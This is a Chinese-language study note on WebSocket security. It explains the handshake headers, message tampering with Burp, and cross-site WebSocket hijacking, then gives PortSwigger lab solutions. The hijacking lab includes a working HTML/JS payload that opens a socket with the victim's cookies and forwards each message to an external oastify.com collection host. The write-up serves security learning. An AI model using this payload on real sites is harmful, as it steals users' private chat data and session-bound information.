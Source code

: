 ### 介绍

* 什么是websocket：通过HTTP协议发起的一个双向全双工的通信协议。WebSocket协议被广泛用在现代WEB程序中用于数据流的传输和异步通信。
* websocket是由http请求发起建立的，建立连接后，双方均可主动发送消息，且不用遵循类似http一个请求对应一个响应的通信方式

### websocket连接的建立过程

通过js发起连接，wss是TLS加密的，ws是没有加密的，类似于https和http的关系

```java
var ws = new WebSocket("wss://normal-website.com/chat");
```

* 首先通过http建立连接，图示中标出了建立连接所使用的首部，和成功建立连接的响应
  * `Connection`和`Upgrade`头部用来标识这是一个WebSocket握手消息。
  * `Sec-WebSocket-Version`请求头明确了一个客户端希望使用的WebSocket协议版本。版本`13`最常用。
  * `Sec-WebSocket-Key`请求头包含了一个base64编码的随机值，在每个WebSocket握手请求中，它一定是随机生成的，**并不用做身份验证**。
  * `Sec-WebSocket-Accept`响应头的值是客户端发送的握手请求中`Sec-WebSocket-key`的哈希值，并与协议规范中定义的特定字符串连接。这样做的目的是匹配每一对握手请求，防止由于错误的配置或者缓存代理导致的连接错误。

![image-20240919161317046](./images/image-20240919161317046.png)

后续的报文，burp中没有显示二进制的首部。websocket建立连接后可以发送任意格式的信息，但是常常为json

![image-20240919162025148](./images/image-20240919162025148.png)

### 恶意操作websocket报文

实际上，几乎所有的Web漏洞都有可能出现在WebSocket中。因为，WebSocket本质上就是一个通过HTTP建立连接的双向全双工的通信协议而已，但由于其相比HTTP多了一“工”的特性，可能会出现一些新的攻击场景。

对于websocket的测试与常见的通过http报文的测试无异，无非是更改其报文的内容尝试进行攻击。和http报文一样，可以借助burp的proxy模块拦截和查看其历史记录，通过repeater模块重放等。

### 跨站WebSockets攻击

发起websocket连接是没有跨域限制的，而且并不限制js读取返回的数据，所以我们利用websocket发起类似于csrf的攻击

### portswigger靶场

#### Lab: Manipulating WebSocket messages to exploit vulnerabilities

#### Lab: Cross-site WebSocket hijacking

```html
<html>
<script>
// Create WebSocket connection.
// 会携带同源cookie
var ws = new WebSocket("wss://0a1300e804b8a30880115d9500110087.web-security-academy.net/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
// fetch可以发起跨域的no-cors请求，但不能携带cookie，不能获取返回数据
ws.onmessage = function(event) {
  fetch('https://qxrcgx2qo9vhsvdclvu2pb5j1a72vsjh.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data})
};
</script>
</html>
```

#### 